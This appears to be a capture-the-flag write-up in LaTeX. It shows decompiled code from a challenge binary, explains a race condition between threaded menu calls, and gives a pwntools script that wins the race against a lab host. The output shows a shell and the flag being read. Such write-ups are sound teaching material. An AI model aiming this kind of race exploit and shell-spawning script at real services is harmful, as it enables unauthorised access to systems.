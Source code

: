 \documentclass{article}
\newcommand{\code}[1]{\lstinline|#1|}
\begin{document}
\begin{lstlisting}[language=bash]
  if (a < b) {
    apcStack_2c[0] = "Win!";
    ppcVar3 = apcStack_2c;
    FUN_00011130();
    apcStack_2c[0] = "/bin/sh";
    FUN_00011140();
    apcStack_2c[0] = (char *)0x0;
    FUN_00011150();
  }
  \end{lstlisting}

We note that \code{menu_chance} is called through spawning another thread and
this is likely where the race condition can be exploited. We can see that there
is a check for \code{flag==1} and since this is not a protected variable,
assuming that \code{b<a} then we can call \code{menu_chance} again and still
get to set \code{a_sleep=1}.

Now we can formulate our attack. We first call \code{menu_go} and we will
having \code{a=5} and \code{b=2} we will call \code{menu_chance}, allowing us
to update \code{a_sleep=1}, we quickly call \code{menu_go} to update \code{b=4}
and before the first thread for \code{menu_chance} updates \code{flag}, we call
\code{menu_chance} again, allowing us to set \code{a_sleep=1} once again. Now,
we can call \code{menu_go} one more time, setting \code{b=6}. With that, we can
now call \code{menu_test} allowing us to fulfill the check condition.

\begin{lstlisting}[language=python]
  from  pwn import *
  
  context.arch = 'i386'
  race = remote('10.0.0.10',40015)
  race.recvuntil(b'>')
  race.sendline(b'1')
  race.recvuntil(b'>')
  race.sendline(b'2')
  
  race.recvuntil(b'>')
  race.sendline(b'1')
  race.recvuntil(b'>')
  race.sendline(b'2')
  
  race.recvuntil(b'>')
  race.sendline(b'1')
  race.recvuntil(b'>')
  race.sendline(b'3')
  # wait for response
  print(race.recvline())
  race.interactive()
\end{lstlisting}

we create a python program that aids us in calling the required choices fast
enough such that the race condition happens. Running the above python code
allows us to `win' the CTF. Running the above in python3 with pwntools package
installed will allow us to run the exploit successfully.

\begin{lstlisting}[language=bash]
  test@115-18:~$ python3 another.py
  Pwntools does not support 32-bit Python. Use a 64-bit release.
  [+] Opening connection to 10.0.0.10 on port 40015: Done
  [*] Switching to interactive mode
  Win!
  $ whoami
  ctfer
  $ cat flag
  flag{race_r3ce_Race!!!!}
\end{lstlisting}
\end{document}
